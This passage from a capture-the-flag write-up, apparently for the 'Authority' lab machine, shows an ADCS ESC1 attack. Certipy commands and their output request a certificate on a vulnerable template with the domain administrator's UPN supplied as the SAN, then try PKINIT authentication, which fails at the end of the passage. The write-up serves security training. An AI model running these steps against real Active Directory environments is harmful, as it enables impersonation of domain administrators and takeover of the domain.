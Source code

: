 
### Enrolling into the vulnerable template & supplying a SAN
On the [Certipy github](https://github.com/ly4k/Certipy#esc1){:target="_blank"} it explains nicely how we can exploit `ESC1` . We request a new certificate based on the `CorpVPN` template from the `AUTHORITY-CA` certificate authority and supply a SAN of the domain admin `administrtor@authority.htb`. We also use the `-debug` parameter in case of any errors that are thrown: 

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy req -username EvilComputer$ -password SomePassword -ca AUTHORITY-CA -target authority.authority.htb -template CorpVPN -upn administrator@authority.htb -dc-ip 10.129.235.244 -dns authority.htb -debug 
Certipy v4.3.0 - by Oliver Lyak (ly4k)
[+] Trying to resolve 'authority.authority.htb' at '10.129.235.244'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.235.244[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.235.244[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 2
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```

![image-19.png](/assets/img/Authority/image-19.png)

With our new certificate we can try to authenticate via `PKINIT` to obtain a `TGT` for `Administrator`.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy auth -pfx administrator_authority.pfx -dc-ip 10.129.235.244
Certipy v4.3.0 - by Oliver Lyak (ly4k)
[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

